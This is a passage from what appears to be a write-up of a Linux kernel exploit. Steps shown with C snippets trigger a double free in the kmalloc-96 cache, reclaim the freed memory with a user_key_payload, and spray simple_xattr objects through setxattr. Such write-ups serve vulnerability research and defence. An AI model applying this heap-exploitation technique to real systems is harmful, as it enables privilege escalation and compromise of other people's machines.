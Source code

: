 ```c
  return attr;

err2:
  free(attr->name);
err1:
  free(attr->path);
err:
  free(attr);
  return NULL;
}
```

### Step4.3: Free `struct user_key_payload` object
- [exploit.c#L708](./exploit.c#L708):

```c
df_fsfd = prepare_double_free(KMALLOC_96);
if (df_fsfd < 0)
  return 0;

get_full_timesplice();
trigger_first_free(df_fsfd);
char tmp[41] = {};
read_kmalloc_96_key = user_key_payload_alloc("key96", tmp, 41);
if (read_kmalloc_96_key < 0)
  return 0;

get_full_timesplice();
trigger_second_free(df_fsfd);
```

### Step4.4: Spray `struct simple_xattr` objects
- [exploit.c#L722](./exploit.c#L722):

```c
if (!simple_xattr_manager_set(m))
  return 0;
```

- [exploit.c#L266](./exploit.c#L266):

```c
bool simple_xattr_manager_set(struct simple_xattr_manager *m)
{
  for (int i = 0; i < m->len; i++) {
    if (setxattr(m->attrs[i]->path, m->attrs[i]->name, m->attrs[i]->payload, m->attrs[i]->size, 0) < 0) {
      perror("setxattr");
      return false;
    }
  }

  return true;
}
```
